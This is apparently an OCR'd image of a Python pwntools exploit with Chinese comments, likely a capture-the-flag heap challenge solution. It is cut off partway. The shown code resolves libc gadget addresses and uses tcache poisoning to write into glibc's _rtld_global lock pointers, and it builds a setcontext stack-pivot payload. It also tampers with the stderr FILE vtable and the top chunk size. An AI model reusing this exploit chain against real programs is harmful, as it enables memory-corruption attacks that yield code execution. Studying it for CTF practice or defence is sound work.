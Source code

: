    ```python
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"+ hex(IO_wfile_jumps_addr))
   success("rtld_global_addr==>"   + hex(rtld_global_addr))
   success("IO_2_1_stderr_addr==>"+ hex(IO_2_1_stderr_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr= libc.sym['write']+libc_base
   mmap_addr = libc.sym['mmap'] +libc_base
   writev_addr = libc_base + libc.sym['writev']
   
   pop_rdi_ret=libc_base + 0x0000000000028a55
   pop_rdx_ret=libc_base + 0x00000000000c7f32
   pop_rax_ret=libc_base + 0x0000000000044c70
   pop_rsi_ret=libc_base + 0x000000000002a4cf
   pop_rcx_rbx_ret = libc_base + 0x00000000000fc104
   pop_r8_ret = libc_base + 0x148686
   ret= libc_base + 0x000000000002a4cf+1
   
   # 任意地址申请chunk 修改_rtdl_global结构体 
   dl_load_lock_addr = rtld_global_addr + 0x980
   dl_rtld_lock_recursive_addr = rtld_global_addr + 0xf90
   success("dl_load_lock_addr          ==>"   + hex(dl_load_lock_addr))
   success("dl_rtld_lock_recursive_addr==>"   + hex(dl_rtld_lock_recursive_addr))
   
   gadget = libc_base + 0x000000000014a0a0
   
   success("gadget          ==>"   + hex(gadget))
   debug()
   pause()
   # 申请到 tcache_perthread_struct
   payload = fd_glibc64(tcache_key,heap_addr + 0xf0)
   edit(7,payload)     # 修改 next指针 指向tcache
   add(b"aaa")     #8
   add(p64(0) + p64(0x110) + p64(0) + p64(heap_addr + 0x100))     #9 伪造好size字段和chunk 0x110的指针
   
   
   # 第一次写入
   add(p64(0) + p64(dl_rtld_lock_recursive_addr))     #10 申请到包含tcache_perthread_struct的chunk
   add(p64(gadget))   #11 往dl_rtld_lock_recursive_addr中填入gadget
   
   
   # 第二次写入 完成 rdi --> rdx 转换 和 setcontext的栈迁移
   free(10)
   
   add(p64(0) + p64(dl_load_lock_addr))     #12 申请到包含tcache_perthread_struct的chunk
   
   payload = p64(0)*2 + p64(dl_load_lock_addr + 8) + p64(0)*2 + p64(setcontext_addr)
   payload = payload.ljust(0xa0+8,b"\x00")
   payload += p64(heap_addr + 0x900) + p64(ret)  # setcontex + 61完成栈迁移
   add(payload)    #13 向dl_load_lock_addr中写入一个堆地址，后续用来转换rdi --> rdx
   print(hex(dl_load_lock_addr))
   
   free(10)
   add(p64(0) + p64(IO_2_1_stderr_addr + 0xd0))     #14 申请到包含tcache_perthread_struct的chunk
   p.sendlineafter(b'>','1')   # 将IO_2_1_stderr_取出，但是不计入个数 修改 IO_2_1_stderr_ 的vtable 指针 使之不能通过check检测
   
   # 修改top_chunk 的size
   free(10)
   top_chunk = heap_addr + 0xB10
   add(p64(0)+ p64(top_chunk))   #15
   ```